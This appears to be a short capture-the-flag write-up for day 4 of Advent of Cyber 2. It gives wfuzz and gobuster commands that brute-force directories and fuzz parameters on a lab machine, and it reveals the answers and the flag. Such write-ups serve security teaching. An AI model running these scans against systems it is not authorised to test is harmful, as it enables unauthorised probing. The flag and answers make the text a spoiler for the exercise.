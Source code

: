 # Advent of cyber 2 | day 4 | Santa's watching 

> Tal Baraz

--------

For me the ip for the machine was: `10.10.115.208` it'll probably be diffrent for you.

## Question 1
No answer needed

## Question 2
From the examples and what we've read about wfuzz we can write:
```bash
wfuzz -c -z file,big.txt -d "breed=FUZZ" -u http://shibes.xyz/api.php
```
Which is the answer.

## Question 3
after using gobuster with the dirbuster wordlist (lol) like a so:
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,txt,html -u http://10.10.115.208/
```
we find:
```
/index.html (Status: 200)
/api (Status: 301)
``` 
In `/api` we can find an index with a single file `site-log.php` 
which is the answer to the qeustion

## Question 4
As the question tells us there's a date GET parameter on `http://10.10.115.208/api/site-log.php`
we know the format for the site is `YYYYMMDD`, so we are intrested in the log info for the last 2 months or so.
So we gonna use wfuzz to fuzz the date parameter with the given wordlist
or
we could write a script to generate 1 (which is what I did)
our command will look like this:
```bash
wfuzz -c -z file,wordlist -d "date=FUZZ" -u "http://10.10.115.208/api/site-log.php" | grep -v "0 Ch"
```
added the reverse grep to exclude empty results

we get a potential entry for `20201125`
going to `http://10.10.115.208/api/site-log.php?date=20201125` we can see the flag `THM{D4t3_AP1}`